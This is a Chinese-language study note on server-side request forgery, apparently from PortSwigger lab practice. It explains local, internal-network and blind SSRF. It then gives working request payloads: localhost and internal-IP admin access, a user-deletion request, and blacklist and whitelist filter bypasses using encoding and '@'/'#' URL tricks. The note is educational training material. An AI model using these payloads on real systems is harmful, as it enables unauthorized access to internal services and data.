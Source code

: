 ## Server-side request forgery (SSRF)

SSRF（服务端请求伪造），服务器端请求伪造是一种 Web 安全漏洞，它允许攻击者使服务器端应用程序向意外位置发出请求

![](img/server-side%20request%20forgery.svg)
## SSRF 攻击的影响是什么?

成功的 SSRF 攻击通常会导致未经授权的作或对组织内的数据的访问。这可能位于易受攻击的应用程序中，也可能位于应用程序可以与之通信的其他后端系统上。在某些情况下，SSRF 漏洞可能允许攻击者执行任意命令。

## 常见的 SSRF 攻击

### 针对本地服务器

在针对本地服务器的` SSRF `攻击中，攻击者使应用程序通过其环回网络接口向托管应用程序的服务器发出 HTTP 请求。

这通常涉及提供主机名如 `127.0.0.1`（指向环回适配器的保留 IP 地址）或 `localhost`（同一适配器的常用名称）的 URL

例如：一个购物网站，这个功能是查看特定商店是否存在商品库存，并提供股票信息；后端必须查询各种`RESt API`，它将URL传递给后端的相关`API`来达成目的。

当用户查询商品库存时，请求如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

服务器通过向指定的URL发送请求，将结果返回给用户

攻击者可以修改请求以指定服务器本地的 URL：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

这样就将`/admin`的内容返回给用户

攻击者可以访问 `/admin` URL，但管理功能通常只有经过**身份验证**的用户才能访问，这意味着攻击者不会看到任何感兴趣的内容。

但是，如果对 `/admin` URL 的请求来自本地计算机，则会绕过正常的访问控制。

**为什么网站这样运行，并且信任本地服务器的请求？**

- 访问控制检查在其他组件中，当连接回到服务器时，将绕过检查
- 网站可能允许本地计算机的任意用户管理，而无需登录
- 管理的页面在用户访问不到的端口

### 针对其他后端系统

服务器能够与用户访问不到的系统进行交互，这些系统大多是内网地址，内网系统通常受**网络拓扑**保护，因此它们的安全状况通常较弱。

在许多情况下，内网后端系统包含敏感功能，任何能够与系统交互的人都可以在不进行身份验证的情况下访问这些功能。

假设内网中  ` https://192.168.0.68/admin` 有一个管理界面

攻击者提交如下请求，利用SSRF漏洞

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

### 盲 SSRF 漏洞

网站会向指定的URL发送请求，但在响应中没有任何回显。

无回显 SSRF 漏洞不能轻易的读取数据，危害低于正常 SSRF ，尽管在某些情况下可以利用它们来实现完全远程代码执行

检测盲 SSRF 漏洞的最可靠方法是使用带外 （OAST） 技术。

这涉及尝试触发对外部系统的 HTTP 请求，并监控与该系统的网络交互

## labs

### 本地服务器的 SSRF

检查商品库存功能，请求数据包如下：

![image-20250509234300998](./img/image-20250509234300998.png)

访问`http://localhost/admin`

![image-20250509234136125](./img/image-20250509234136125.png)

查看页面源代码，访问`http://localhost/admin/delete?username=carlos`，删除`carlos`用户

### 其他系统的 SSRF

这个系统在`192.168.0.X`的8080端口上，我们需要自主寻找

直接爆破即可，找到状态码为200的

![image-20250510000509607](./img/image-20250510000509607.png)



### bypass 黑名单

用`127.1`，`a`字符被限制，大小写绕过，或者URL编码（双重）绕过

因为服务器可能是以递归的方式进行 URL 解码

payload

```http
http://127.1/%25%34%31dmin
http://127.1/%41dmin
http://127.1/Admin
```

### bypass 白名单

一个完整的URL结构

```http
https://username:password@www.example.com:443/path/to/resource?query=parameter#section
```

>1. **协议（Scheme）**：`https`
>2. **用户信息（User Info）**：`username:password`
>3. **主机名（Host）**：`www.example.com`
>4. **端口号（Port）**：`:443`
>5. **路径（Path）**：`/path/to/resource`
>6. **查询字符串（Query String）**：`?query=parameter`
>7. **片段标识符（Fragment Identifier）**：`#section`
>
>片段标识符是一个可选部分，以`#`开头，通常用于指向网页中的某个特定部分（如某个标题或段落）。它在浏览器中处理，不会发送到服务器

一些服务器只允许白名单中的值，或者查找是否包含匹配项

payload

```http
http://localhost%2523@stock.weliketoshop.net/admin
```

```http
http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

```php
<?php

$url = 'http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos';
$info = parse_url($url);
var_dump($info);

$info = parse_url(urldecode($url));
var_dump($info);

$info = parse_url(urldecode(urldecode($url)));
var_dump($info);
```

可能是先利用`parse_url`，检查host的值必须是`stock.weliketoshop.net`

URL解码二次以后：

```php
array(4) {
  'scheme' =>
  string(4) "http"
  'host' =>
  string(9) "localhost"
  'port' =>
  int(80)
  'fragment' =>
  string(52) "@stock.weliketoshop.net/admin/delete?username=carlos"
}
```

### 重定向利用

如果用于发出后端 HTTP 请求的 API 支持重定向，就可以构建一个满足筛选条件的 URL，并将请求重定向到所需的后端目标

![image-20250510193935455](./img/image-20250510193935455.png)

非预期吗？猜测后端是将`host`和`stockApi`拼接起来再请求的，用`@`符号指定`host`

```http
@192.168.0.12:8080/admin/delete?username=carlos
```

预期：

在下一个商品的按钮，存在`/product/nextProduct?currentProductId=19&path=/product?productId=20`

修改`path`即可

```http
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

### 盲 SSRF 利用（带外）

该网站使用分析软件，当加载产品页面时，该软件会获取`Referer`头中指定的UR

修改`referer`指定自己的服务器

![image-20250510195244789](./img/image-20250510195244789.png)

### 盲 SSRF -Shellshock 漏洞

UA头和Referer头与服务器有交互

![image-20250510201959117](./img/image-20250510201959117.png)

![image-20250510202130094](./img/image-20250510202130094.png)

## URL验证绕过备忘单

https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet
